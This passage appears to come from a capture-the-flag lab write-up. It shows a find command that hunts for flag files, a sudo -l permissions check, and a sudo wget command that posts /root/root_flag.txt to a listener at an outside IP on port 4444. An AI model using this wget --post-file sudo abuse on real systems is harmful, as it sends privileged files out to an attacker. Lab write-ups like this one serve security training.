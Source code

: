 </div>

We're in, try to find user.txt flag using find command:\


```bash
find / -type f -iname "*flag.txt" 2>/dev/null
```

<figure><img src="../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

<details><summary>🚩 Flag 1 (user_flag.txt)</summary></details>

### Task 4 - user.txt?

We can do sudo -l command to discover user's permissions.











<figure><img src="../.gitbook/assets/image (162).png" alt=""><figcaption><p>find IP and listen on port 4444</p></figcaption></figure>

```bash
sudo /usr/bin/wget http://10.9.80.228:4444 --post-file=/root/root_flag.txt
```

<figure><img src="../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

<div align="left">
